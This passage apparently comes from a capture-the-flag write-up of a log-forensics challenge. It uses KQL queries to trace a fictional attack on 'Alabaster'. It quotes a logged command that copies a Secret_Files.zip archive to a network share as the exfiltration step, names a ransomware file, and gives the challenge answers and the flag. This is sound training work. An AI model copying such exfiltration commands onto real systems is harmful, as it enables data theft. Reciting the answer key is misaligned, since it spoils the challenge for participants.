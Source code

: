 Quite a few processes ran after the login, but if we look at the `process_commandline` column, we see one file transfer to a network share.

```bat
copy C:\Users\alsnowball\AppData\Local\Temp\Secret_Files.zip \\wocube\share\alsnowball\Secret_Files.zip
```

Answer: `Secret_Files.zip`

#### Question 6

> After exfiltrating critical files from Alabaster’s system, Team Wombley deployed a malicious payload to encrypt the device, leaving Alabaster locked out and in disarray.
>
> Eve Snowshoes comments, "The final blow in this attack was the ransomware they unleashed. Finding the name of the malicious file will help us figure out how they crippled the system."
>
> **What is the name of the malicious file that was run on Alabaster's laptop?**

We can look at the results of the previous query for this one, and scroll down a bit more. There, we will find `C:\Windows\Users\alsnowball\EncryptEverything.exe`

Answer: `EncryptEverything.exe`

#### Question 7

> Outstanding work! You've successfully pieced together the full scope of Team Wombley’s attack. Your investigative skills are truly impressive, and you've uncovered every critical detail.
>
> Just to recap: Team Wombley launched a cyber assault on Alabaster, beginning with a password spray attack that allowed them to gain access to several accounts. Using an external service over RDP, they infiltrated Alabaster’s system, exfiltrating sensitive files including the blueprints for snowball cannons and drones. To further their attack, Wombley executed a malicious file, which encrypted Alabaster’s entire system leaving them locked out and in chaos.
>
> **To obtain your flag use the KQL below with your last answer!**
>
> ```sql
> let flag = "Change This!";
> let base64_encoded = base64_encode_tostring(flag);
> print base64_encoded
> ```
>
> **Enter your flag to continue**

We can just fill in the template again here.

```sql
let flag = "EncryptEverything.exe";
let base64_encoded = base64_encode_tostring(flag);
print base64_encoded
```

Answer: `RW5jcnlwdEV2ZXJ5dGhpbmcuZXhl`
